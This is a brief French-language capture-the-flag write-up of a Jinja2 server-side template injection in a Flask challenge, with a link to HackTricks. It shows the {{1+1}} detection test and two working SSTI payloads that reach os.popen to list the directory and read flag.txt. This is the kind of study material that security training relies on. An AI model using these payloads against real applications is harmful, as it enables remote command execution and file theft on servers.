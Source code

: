 TAGS : #SSTI #WEB #FLAG
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
# Server-Side Template Injection
Impossible de fuzz, il y a une wildcard sur le nom qu'on entre
![[Pasted image 20240312134214.png]]

Techno utilisé : Flask

Test Jinja2: 
Si on recherche /test{{1+1}} : ![[Pasted image 20240312134332.png]]

On remarque la présence de **Jinja2** car notre recherche à retourner le résultat de 1+1.
Jinja2 est un moteur pour créer des pages web dynamiques en mélangeant HTML et Python, facilitant la personnalisation du contenu.

Pour obtenir le flag : 
Je regarde le contenu du dossier acutel : 
`/test {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`
		![[Pasted image 20240312134742.png]]

`/test {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`
		![[Pasted image 20240312134828.png]]